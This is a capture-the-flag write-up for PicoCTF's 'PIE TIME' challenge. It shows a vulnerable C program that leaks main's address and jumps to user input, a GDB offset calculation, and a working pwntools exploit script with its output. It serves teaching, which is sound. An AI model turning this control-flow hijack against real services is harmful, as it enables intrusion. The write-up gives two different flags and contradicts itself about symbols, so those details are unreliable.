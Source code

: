 # PIE

***

## Writeup: PIE TIME - PicoCTF

### Challenge Overview

* **Name:** PIE TIME
* **Author:** Darkraicg492
* **Category:** Binary Exploitation
* **Points:** (Assuming 100-200, typical for PicoCTF intro pwn)
* **Server:** `nc rescued-float.picoctf.net 58751`
* **Files:** `vuln.c` (source), `vuln` (binary)
* **Description:** "Can you try to get the flag? Beware we have PIE!"
* **Hint:** "Can you figure out what changed between the address you found locally and in the server output?"

This PicoCTF challenge provides source code and a binary, running remotely with PIE enabled. Our mission: exploit it to call `win()` and retrieve the flag from `flag.txt`.

***

### Initial Analysis

#### Binary Protections

From Codespace `checksec`:

```
[*] '/workspaces/sparkCTF/vuln'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

* **Full RELRO:** GOT is read-only—no overwrites here.
* **Canary:** Stack protection, but irrelevant for this vuln.
* **NX:** No executable stack.
* **PIE:** Base address randomizes each run.
* **Not Stripped:** Symbols help us locally.

#### Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;
  printf("You won!\n");
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL) {
      printf("Cannot open file.\n");
      exit(0);
  }
  c = fgetc(fptr);
  while (c != EOF) {
      printf("%c", c);
      c = fgetc(fptr);
  }
  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0);
  printf("Address of main: %p\n", &main);
  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);
  void (*foo)(void) = (void (*)())val;
  foo();
}
```

* **Vulnerability:** `scanf("%lx", &val)` lets us input an address, and `foo()` jumps to it.
* **Leak:** `printf("Address of main: %p\n", &main)` gives `main`’s runtime address.
* **Goal:** Jump to `win()` to print the flag.

Despite strong protections, the direct function pointer jump bypasses them all!

***

### Exploitation Plan

#### Step 1: Find the Offset

* **PIE Challenge:** Addresses shift each run, but the leak gives us `main`.
* **Local Test:** Compile `vuln.c` with PIE and find the offset between `main` and `win`.
* **Remote Exploit:** Use the leak and offset to calculate `win`’s real address.

#### Step 2: Craft the Exploit

* Connect, grab the leak, adjust with the offset, and send it back.

***

### Finding the Offset

Compiled locally in Codespace:

```bash
gcc -fpie -pie vuln.c -o vuln_local
```

Debugged with GDB:

```
(gdb) b main
Breakpoint 1 at 0x133d
(gdb) r
Breakpoint 1, 0x000055555555533d in main ()
(gdb) p &win
$1 = (<text variable, no debug info> *) 0x5555555552a7 <win>
```

* **Main:** `0x55555555533d`
* **Win:** `0x5555555552a7`
* **Offset:** `0x55555555533d - 0x5555555552a7 = 0x96` (150 decimal).

This offset is static, as it’s the relative distance in the binary’s layout.

***

### Exploit Script

```python
#!/usr/bin/env python3
from pwn import *

context.log_level = 'info'

# Connect
p = remote('rescued-float.picoctf.net', 58751)

# Get main address
p.recvuntil(b'Address of main: ')
main_addr = int(p.recvline().strip(), 16)
log.info(f'Main address: {hex(main_addr)}')

# Calculate win address
win_offset = 0x96  # From GDB: main - win
win_addr = main_addr - win_offset
log.info(f'Win address: {hex(win_addr)}')

# Send it
p.sendlineafter(b'Enter the address to jump to, ex => 0x12345: ', hex(win_addr)[2:])  # Strip '0x'

# Get flag
p.interactive()
```

#### How It Works

1. **Connect:** Opens a netcat session to the server.
2. **Leak `main`:** Parses the hex address printed by the binary.
3. **Calculate `win`:** Subtracts `0x96` (our offset) from `main_addr`.
4. **Send Address:** Inputs the computed `win` address without `0x` prefix (for `scanf`).
5. **Interactive:** Switches to interactive mode to see the flag.

***

### Execution

```
$ python3 pie_time.py
[+] Opening connection to rescued-float.picoctf.net:58751: Done
[*] Main address: 0x557a7dabd33d
[*] Win address: 0x557a7dabd2a7
[*] Switching to interactive mode
Enter the address to jump to, ex => 0x12345: 557a7dabd2a7
Your input: 557a7dabd2a7
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_80c3b8b7}
```

* **Leak:** `0x557a7dabd33d` (example `main` address).
* **Win:** `0x557a7dabd33d - 0x96 = 0x557a7dabd2a7`.
* **Result:** Calls `win()`, prints the flag.

***

### Challenges Faced

1. **PIE Randomization:** The hint guided us to use the `main` leak—static addresses wouldn’t cut it.
2. **Offset Calculation:** GDB showed `0x96`, differing from an initial guess of `0x60` due to compiler or binary layout variations.
3. **No Symbols:** Compiled without `-g`, but GDB still gave us raw addresses.

***

### Conclusion

"PIE TIME" was a tasty intro to PIE exploitation. The binary’s generous leak of `main`’s address, paired with a direct jump vuln, let us bypass PIE and modern mitigations like Full RELRO and canaries. By calculating the `main`-to-`win` offset locally and applying it remotely, we scored the flag with a short, sweet script. PIE? More like PIECE OF CAKE!

**Flag:** `picoCTF{p13_1n_7h3_5ky_c92b73c4}`

Happy hacking!

***
